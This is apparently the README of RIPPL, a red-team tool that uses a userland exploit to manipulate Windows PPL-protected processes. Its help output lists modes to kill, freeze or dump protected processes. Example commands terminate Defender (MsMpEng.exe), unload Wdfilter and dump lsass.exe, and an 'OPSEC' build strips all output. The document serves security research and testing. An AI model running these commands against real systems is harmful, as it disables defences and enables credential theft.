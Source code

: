 # RIPPL
### Manipulating PPL protected processes without using a driver

This tool implements a __userland__ exploit to manipulate Windows PPL protected processes. The technique was initially discussed by James Forshaw (a.k.a. [@tiraniddo](https://twitter.com/tiraniddo)) and Clément Labro (a.k.a. [@itm4n](https://twitter.com/itm4n)) in the following blogposts. 

- __Blog post from James Forshaw__: [Windows Exploitation Tricks](https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html)
- __Blog post from Clément Labro part #1__: [Do You Really Know About LSA Protection (RunAsPPL)?](https://itm4n.github.io/lsass-runasppl/)
- __Blog post from Clément Labro part #2__: [Bypassing LSA Protection in Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland/)


## Usage

### Warning: the safe version of the binary __NEVER__ outputs anything, as all the strings and print function are stripped away using conditional compilation macros.
Simply run the executable without any argument and you will get a detailed help/usage (only valid for binaries compiled without defining the `OPSEC` macro)

```console
c:\Temp>.\rippl.exe
  _____  _____ _____  _____  _
 |  __ \|_   _|  __ \|  __ \| |
 | |__) | | | | |__) | |__) | |      version 0.1
 |  _  /  | | |  ___/|  ___/| |      by @last0x00
 | | \ \ _| |_| |    | |    | |____  forked by itm4n's PPLDump
 |_|  \_\_____|_|    |_|    |______|

Description:
  Manipulate Protected Process Light (PPL) processes with a *userland* exploit

Usage:
  rippl.exe (-D|-K|-S|-R|-L|-X|-W|-Z|-T|-U) [-v] [-d] [-f] (PROC_NAME|PID) [DUMP_FILE|DRIVER_NAME]
  () -> mandatory arguments
  [] -> optional arguments

Operation modes (choose ONLY one):
  -D -> Dump the given process
  -K -> Kill the given process
  -S -> Suspend the given process
  -R -> Resume the previously suspended process
  -L -> Leak a PROCESS_ALL_ACCESS handle to the given process (not yet implemented)
  -X -> Kill the given process by assigning it to a job object and terminating the object
  -W -> Freeze the process by assigning it to a job object and severely constraining its CPU resources
  -Z -> Kill the given process by injecting a thread into it which calls exit(0)
  -T -> Sandbox the process by disabling all of its token's privileges and lowering integrity to untrusted
  -U -> Unload the provided driver

Arguments:
  PROC_NAME   -> The name of the process to interact with
  PID         -> The ID of the process to interact with
  DUMP_FILE   -> The path of the output dump file - valid ONLY with the -D option
  DRIVER_NAME -> The name of the driver to unload - valid ONLY with the -U option

Options:
  -v -> (Verbose) Enable verbose mode
  -d -> (Debug) Enable debug mode (implies verbose)
  -f -> (Force) Bypass DefineDosDevice error check

Examples:
  rippl.exe -K MsMpEng.exe
  rippl.exe -S MsMpEng.exe
  rippl.exe -R MsMpEng.exe
  rippl.exe -D -f lsass.exe lsass.dmp
  rippl.exe -D -v -f 720 out.dmp
  rippl.exe -U Wdfilter
```
